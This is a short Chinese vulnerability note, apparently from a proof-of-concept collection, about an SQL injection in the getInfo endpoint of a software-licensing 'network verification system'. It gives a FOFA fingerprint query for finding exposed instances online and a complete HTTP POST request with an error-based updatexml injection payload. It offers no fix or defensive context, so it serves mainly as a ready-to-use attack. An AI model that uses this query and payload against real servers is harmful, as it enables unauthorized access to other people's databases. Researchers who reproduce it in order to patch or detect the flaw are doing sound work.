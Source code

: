 ## 网络验证系统getInfo参数存在SQL注入漏洞


## fofa
```
body="zhuya/js/base.js"
```

![image](../../images/fc89004e-3d6d-43b5-9d00-628468cb3d7a.png)

## poc
```
POST /index.php/api/Software/getInfo HTTP/1.1
Host: 
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

data=123456&id=1 and updatexml(1,concat(0x7e,md5(123),0x7e),1)
```


![image](../../images/c0c54626-76ac-440a-97be-760bb17c61cb.png)
